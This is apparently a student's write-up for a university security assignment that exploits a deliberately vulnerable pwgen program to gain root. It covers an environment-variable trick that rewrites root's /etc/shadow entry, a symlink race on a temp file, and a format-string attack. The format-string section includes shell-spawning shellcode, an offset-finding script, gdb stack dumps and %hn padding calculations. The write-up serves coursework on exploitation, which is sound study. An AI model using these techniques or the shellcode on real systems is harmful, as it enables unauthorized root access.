

# CS453 Assignment 1 responses
Name: Sng Wei Qi Amos  
Student ID: 21175177  

## sploit1 (Environmental Variables)
Attack Approach:  

In the pwgen source code, we observe that the `update_spent()` function will open up the `/etc/shadow` file  and write to it.  
The way the `update_spent()` function works, it calls `get_username()` to get the username of the entry it should overwrite in the `/etc/shadow` file.  
From `get_username()` function, we observe that it calls `getuid()`, which then checks the `HOME` environment variable and gets the uid from the user stored there.  

To exploit this, we can change the `HOME` env var to `/root`, this will trick pwgen into thinking that it should update the root's password entry in `/etc/shadow` with the newly generated password, of which pwgen also conveniently prints out in plaintext of the terminal for us too.  

After the attacker changes the password of root, he can just run
```
su
```  
and simply login to gain a root shell.  

The sploit1.c file does the above.
## sploit2 (does not fully work)
Attack Approach:

In the pwgen source code, we observe that in the `check_perms` function, there is a potential TOCTOU vulnerability there.  

When the attacker runs:  
```
pwgen -e -w
```
we notice that `check_perms` is called and the return value is stored in `res`.  
In `check_perms`, the `/tmp/pwgen_random` file is first unlinked, then there is a check by `lstat` if the file is still there, afterwhich a new `/tmp/pwgen_random` file is created using `fopen()`.  
The ownership of this just created new file is then changed to the user, by using `chown`.  

In between the period of where `lstat` checks that the file is truly deleted, and before the new `/tmp/pwgen_random` file is created using `fopen`, the attacker can race to create a symlink with the name `/tmp/pwgen_random` to `/etc/shadow`.  

Then `fopen` will open the `/tmp/pwgen_random` symlink, which will point to `/etc/shadow`, causing `/etc/shadow` to be truncated.  

Then `chown` will change the `/tmp/pwgen_random` symlink, which points to `/etc/shadow` owner to the attacker, in other words, change the `/etc/shadow` owner to the attacker, the attacker then can write their own entry into the `/etc/shadow` file and gain a root shell.  

Note:  
the current sploit2.c program does not full work to create a root shell.  
There seems to be an issue where the checking of the ownership of /etc/shadow doesn't properly terminate the code, and I have to manually do it.  
However after manual termination, you can observe that that the /etc/shadow file's owner has changed to vagrant.  
This proves that the user can write an entry into the /etc/shadow file for root and gain root access since now he has write rights.  
Screenshot proof of exploit working when manually terminated:  


GenAI Acknowlegements:  
ChatGPT o3-mini-high was used to convert my bash script into the sploit2.c file

## sploit3 (does not fully work)

Attack Approach:

From the pwgen source code we observe that there is a potential format string exploit at the `parse_args()` function.  
When the `-e` flag is parsed to pwgen, we can observe that the `printf(args_message_buffer, args.filename);` under `case('e')` doesn't have any format parameter. This will allow the attacker to insert a format parameter e.g `%x`,`%p`,`%s` to the `ags.filename` parameter at the `-e` flag, and cause the `args.filename` supplied to be printed into a string `args_message_buffer`.  
At this point `args_message_buffer` variable will contain some leaked information about the stack in the form of a string, then this leaked information is exposed to the attacker through the `printf("Entropy file name is: %s", args_message_buffer);` on the next line.

Validation:  
To validate that there is actually a vulnerability, we run
```
pwgen -e"%X.%X.%x"
```
which produces:
```
Entropy file name is: ffffd772.252e7825.12Generated password (length 8): IBMGGdY0
```
There are some memory addresses leaked there! Confirming our vulnerability.

Now we want to find the address at which the string we input is located, for this we can use a bash script:
```
#!/usr/bin/zsh

for i in {1..1000}
do
    # Build the format string: "AAAA%<i>$x"
    format_arg=$(printf "AAAA%%%d\$x" "$i")

    output=$(/usr/local/bin/pwgen -e"$format_arg" 2>&1)

    if echo "$output" | grep -q "41414141"; then
        echo "[*] Found AAAA (41414141) at offset $i."
        echo "    pwgen output: $output"
    fi
done
```
we find that the input string AAAA is stored at 2 locations, offset 2 and offset 423.

Crafting exploit:  
now that we know where the input is stored and which offset it is at, we need to create a exploit code that contains the shellcode in binary.  
We then need to use gdb to search for the location where this shellcode binary is stored.  
Following that we need to find the address of the register that stores the return address of parse_args.
We use this following runner code to aid us in doing the above:
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

unsigned char shellcode[] =
    "\x6a\x3b\x58\x48\x31\xd2\x49"
    "\xb8\x2f\x2f\x62\x69\x6e\x2f"
    "\x73\x68\x49\xc1\xe8\x08\x41"
    "\x50\x48\x89\xe7\x52\x57\x48"
    "\x89\xe6\x0f\x05\x6a\x3c\x58"
    "\x48\x31\xff\x0f\x05";

int main() {
    // memory addr the shellcode
    printf("Shellcode is at address: %p\n", shellcode);
    pid_t pid = fork();
    if (pid == 0) {
        execl("/usr/local/bin/pwgen", "/usr/local/bin/pwgen", "-eAAAA.%x.%x.%x", (char *)NULL);
        perror("execl failed");
        exit(1);
    } else if (pid > 0) {
        wait(NULL);
    } else {
        perror("fork failed");
        exit(1);
    }
    return 0;
}                       
```
when we run the runner file, we find that the shellcode is stored at memory address 0x555555558020.

then we go into gdb and set breakpoint at parse_args first.  
since pwgen is forked as a child process, gdb will set this breakpoint to a pending breakpoint.  
we also have to use `set follow-fork-mode child` so that gdb will follow into pwgen to find `parse_args` symbol and set a break there.  
when the breakpoint is reached, we can diassemble the parse_args function. The snippet below contains the portion where `sprintf` is called, which is the portion we are interested in.  
```
   0x0000555555555f91 <+684>:	lea    -0x410(%rbp),%rax
   0x0000555555555f98 <+691>:	mov    %rdx,%rsi
   0x0000555555555f9b <+694>:	mov    %rax,%rdi
   0x0000555555555f9e <+697>:	mov    $0x0,%eax
   0x0000555555555fa3 <+702>:	call   0x555555555380 <sprintf@plt>
   0x0000555555555fa8 <+707>:	lea    -0x410(%rbp),%rax
   0x0000555555555faf <+714>:	mov    %rax,%rsi
   0x0000555555555fb2 <+717>:	lea    0x1180(%rip),%rax        # 0x555555557139
   0x0000555555555fb9 <+724>:	mov    %rax,%rdi
   0x0000555555555fbc <+727>:	mov    $0x0,%eax
   0x0000555555555fc1 <+732>:	call   0x555555555290 <printf@plt>
   0x0000555555555fc6 <+737>:	jmp    0x555555556023 <parse_args+830>
```
sprintf is called at `0x0000555555555fa3`, we can set a break point at `0x0000555555555fc1` so that we allow the `sprintf` to complete, then we can investigate the stack to find the return buffer.  

when the breakpoint at `0x0000555555555fc1` is hit,
we run
```
(gcc) x/32gx $rbp
0x7fffffffdf60:	0x00007fffffffe3c0	0x0000555555556150
0x7fffffffdf70:	0x00007fffffffe4d8	0x00000002f7fbc8a0
0x7fffffffdf80:	0x0000000000000001	0x0000000000000000
0x7fffffffdf90:	0x0000000000000001	0x00007ffff7fbbba0
0x7fffffffdfa0:	0x00007ffff7fbc8a0	0x00007ffff7fbbba0
0x7fffffffdfb0:	0x0000000100000000	0x00007ffff7fbbf10
0x7fffffffdfc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdfd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdfe0:	0x00000000ffffffff	0x0000000000000000
0x7fffffffdff0:	0x00007ffff7fc3908	0x00007ffff7ffdaf0
0x7fffffffe000:	0x00007ffff7fc3590	0x00007ffff7ffca50
0x7fffffffe010:	0x00007ffff7fc38d8	0x00007ffff7fd01d4
0x7fffffffe020:	0x0000000000000218	0x00007ffff790fb8c
0x7fffffffe030:	0x0000000000001140	0x000000000000000d
0x7fffffffe040:	0x00007ffff7fbbba0	0x00007ffff7b281b8
0x7fffffffe050:	0x0000555555556116	0x0000555555558c80
```
the first offset with memory address `0x0000555555556150` is likely the return pointer, since addresses starting with `0x55555555 are typically from the binary.

since now we know the 2 memory addresses now, we can start crafting the payload.

Since we are on 64-bit system, a single %n write cannot write the full 64-bit address. We split the shellcode address into four 16‑bit segments:
- seg0: 0x8020
- seg1: 0x5555
- seg2: 0x5555
- seg3: 0x0000

We need to print an exact number of characters so that when the %hn specifiers are processed, the printed character count equals our desired half‑word value.
Based on our injection tests, we determined that our payload’s addresses appear on the stack at offset 423. We then calculate the necessary padding (in printed characters) for each half‑word write. For instance, if our initial printed count (from our injected addresses) is 32 bytes, we compute:
- pad1: 21813
- pad2: 0
- pad0: 10955
- pad3: 32736

then to construct the payload, we first inject the four target addresses corresponding to the locations of the saved return address’s half-words:
- TARGET_ADDR (for seg0)
- TARGET_ADDR + 2 (for seg1)
- TARGET_ADDR + 4 (for seg2)
- TARGET_ADDR + 6 (for seg3)

then we append a format string that prints the calculated padding and then uses %hn (with positional parameters, starting at offset 423) to write each half‑word into the target addresses.

this should have worked to run the shellcode, but doesnt seem to be doing so.

Acknowledgements:
Chatgpt was used to convert my bash script into sploit3.c file.
